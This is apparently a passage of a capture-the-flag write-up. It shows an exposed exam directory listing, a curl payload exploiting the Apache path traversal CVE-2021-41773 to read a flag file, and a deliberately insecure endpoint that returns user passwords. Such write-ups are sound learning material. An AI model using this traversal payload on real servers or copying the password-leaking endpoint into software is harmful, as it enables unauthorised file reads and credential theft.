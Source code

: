 ```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /exam</title>
 </head>
 <body>
<h1>Index of /exam</h1>
<ul><li><a href="/"> Parent Directory</a></li>
<li><a href="1st_castle.txt"> 1st_castle.txt</a></li>
<li><a href="another_castle.txt"> another_castle.txt</a></li>
<li><a href="linear_algebra.txt"> linear_algebra.txt</a></li>
<li><a href="portal.txt"> portal.txt</a></li>
</ul>
</body></html>
```

The questions could be found at `http://game.sigflag.at:3076/exam/questions.txt`, without any password.

### Apache Semester 7

the hint given was `CVE-2021-41773` - a search online revealed ways exploit it

```bash
curl "https://game.sigflag.at:3087/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/home/bpfh/flag.txt" --insecure --path-as-is  
```

### A1

get the info of user `flag1`: `http://game.sigflag.at:3002/userinfo/flag1`

```python
users = DefaultDict(
    {
        "test": "test",
        "flag1": environ["FLAG1"],
        "local": environ["FLAG10"],
        "admin": environ["FLAG5"],
    }
)
```

```python
@data.get("/userinfo/{username}")
async def userinfo(username: int | str, request: Request, authorize: AuthJWT = Depends()):
    if username == "admin":
        authorize.jwt_required()  # protect the admins!
        if authorize.get_raw_jwt().get("superadmin", False):
            return {"I thought we disabled this feature": environ["FLAG7"]}
    if username == "local":
        if not request.client.host == "127.0.0.1":
            raise HTTPException(401, "You are not localhost")
    if not (password := users[username]):
        return {
            "Will you stop having an invalid password if I give you a flag?": environ[
                "FLAG8"
            ]
        }
    return {"name": username, "pass": password}
```
